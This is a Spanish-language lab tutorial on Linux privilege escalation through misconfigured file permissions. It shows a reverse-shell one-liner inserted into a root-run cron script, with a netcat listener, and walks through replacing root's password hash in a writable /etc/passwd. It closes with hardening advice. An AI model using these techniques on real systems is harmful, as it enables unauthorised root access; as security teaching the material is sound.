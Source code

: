 
---

# Laboratorio: Abuso de permisos incorrectamente implementados

---

## ¿Qué son los permisos en Linux?

En los sistemas operativos Linux, cada archivo y directorio tiene tres tipos de permisos (lectura, escritura y ejecución), organizados en tres niveles de acceso:

- **Usuario propietario**
- **Grupo**
- **Otros (resto de usuarios)**

Cada permiso puede permitir o restringir acciones sobre un archivo:

- `r` (read): permite leer el archivo.
- `w` (write): permite modificar el contenido del archivo.
- `x` (execute): permite ejecutar el archivo si es un binario o script.

---

## ¿Qué entendemos por “abuso de permisos mal configurados”?

Cuando los archivos o directorios críticos tienen permisos **demasiado permisivos** (por ejemplo, escritura para otros usuarios, o ejecución global), un atacante puede:

- Leer información sensible.
- Modificar scripts o binarios legítimos para ejecutar código malicioso.
- Ejecutar comandos arbitrarios.
- Escalar privilegios, especialmente si se involucran servicios o usuarios con permisos elevados.

---

## Ejemplo práctico: Abusando de permisos de escritura en un script ejecutado por root

### Escenario:

Hemos identificado que existe un **script en `/opt/backup.sh`** que es ejecutado periódicamente por `root`, pero tiene permisos de escritura para nuestro usuario:

```bash
ls -l /opt/backup.sh
-rwxrwxr-- 1 root admin 88 jun 14 10:24 /opt/backup.sh
````

Nuestro usuario pertenece al grupo `admin`. Podemos modificar este archivo.

---

### Acción:

Editamos el contenido del script para insertar una shell inversa:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.99/443 0>&1' > /opt/backup.sh
```

Configuramos un listener en nuestra máquina atacante:

```bash
nc -lvnp 443
```

Esperamos a que se ejecute el script (por ejemplo, vía cron), y recibimos la conexión como `root`.

---

### Resultado:

```bash
# whoami
root
```

Hemos escalado privilegios gracias a que el script fue modificado por nuestro usuario antes de ser ejecutado por `root`.

---

## Herramienta de apoyo: Linux Smart Enumeration (lse)

Para detectar este tipo de configuraciones inseguras, podemos usar la herramienta `lse`.

Repositorio: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

### Instalación rápida:

```bash
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh
```

Con el comando `-l 1` indicamos que queremos listar la información crítica que encuentre

```bash
./lse.sh -l 1
```

---

### ¿Qué analiza `lse`?

- Archivos con permisos de escritura inseguros.
    
- Scripts ejecutados por `cron`, `systemd`, `sudo`, etc.
    
- Usuarios y grupos mal configurados.
    
- Servicios con binarios modificables.
    
- Variables de entorno con rutas inseguras.
    

---

### Comando útil para buscar archivos con permisos de escritura para todos los usuarios:

```bash
find / -perm -2 -type f 2>/dev/null
```

O para archivos ejecutados por `root` con permisos de escritura para otros:

```bash
find / -user root -perm -o+w -type f 2>/dev/null
```

---

## Recomendaciones

- Revisar y auditar frecuentemente los permisos de scripts críticos.
    
- Evitar permisos de escritura para grupos o usuarios no necesarios.
    
- Nunca permitir que archivos ejecutados por `root` sean modificables por usuarios normales.
    
- Usar herramientas como `lse`, `linpeas` o `auditd` para automatizar auditorías de seguridad.
    
- Minimizar la cantidad de archivos modificables por otros grupos o usuarios.
    

---

## Ejemplo: abusando permiso escritura en el `/etc/passwd`

**Acción:** obtenemos un hash de una contraseña

```bash
 openssl passwd
	Password:       # en este caso pusimos 'hola'
Verifying - Password: 
$1$XG9IAGS.$/olxJbKeMMl7BqLXkCWCp1
```

**Acción:** añadimos el hash obtenido como contraseña al usuario root

```bash
nano /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

...
nm-openvpn:x:126:136:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
nm-openconnect:x:127:137:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin
metahumo:x:1000:1001:Metahumo:/home/metahumo:/usr/bin/zsh
_lxd:x:128:138::/var/lib/lxd/:/bin/false
```

Explicación: con `openssl passwd` obtenemos una hash para la contraseña que pongamos (en este caso se puso 'hola'). Al tener permisos de escritura en el `/erc/passwd` podemos modificar esta línea del archivo `root:x:0:0:root:/root:/usr/bin/zsh` quitando la `x` y poniendo el hash, `root:$1$XG9IAGS.$/olxJbKeMMl7BqLXkCWCp1:0:0:root:/root:/usr/bin/zsh`. De este modo cuando hagamos `su root` e introduzcamos nuestra contraseña 'hola' irá a comprobarlo en el `/etc/passwd` antes que en el `/etc/shadow`

---

## Resumen

El abuso de permisos incorrectamente aplicados es una vía común de escalada de privilegios. Debemos ser especialmente cuidadosos con los scripts que se ejecutan automáticamente (cron, systemd, sudo sin contraseña) y con los archivos que pueden ser modificados por usuarios sin privilegios. Herramientas como `lse` son grandes aliadas para detectar este tipo de errores y proteger nuestros sistemas.

---
